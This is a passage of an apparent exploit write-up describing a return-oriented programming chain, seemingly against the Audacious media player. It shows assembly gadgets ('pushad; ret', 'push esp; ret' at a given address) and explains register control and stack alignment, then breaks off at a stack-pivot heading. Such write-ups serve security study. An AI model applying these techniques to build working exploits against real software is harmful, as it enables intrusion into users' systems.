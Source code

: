 ```assembly
; Initial ROP gadget - saves all registers to stack
; Address: 0x???????? (module-relative addressing)
pushad          ; Save EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI
ret             ; Return to next ROP gadget
```

This gadget provides:
- **Controlled EBP**: Base pointer for stack frame manipulation
- **Controlled ESI**: Source for memory operations
- **Controlled EDI**: Destination for memory operations

### Phase 2: Stack Alignment

The second ROP gadget performs crucial stack context alignment:

```assembly
; Stack alignment gadget
; Address: 0x68832D18
push esp        ; Push current stack pointer
ret             ; Return using ESP as target address
```

This technique ensures that subsequent ROP gadgets execute in the correct stack context.

![ROP chain execution flow](images/Audacious_6.png)
*Detailed view of ROP chain execution and stack alignment process*

### Phase 3: Stack Pivot Execution
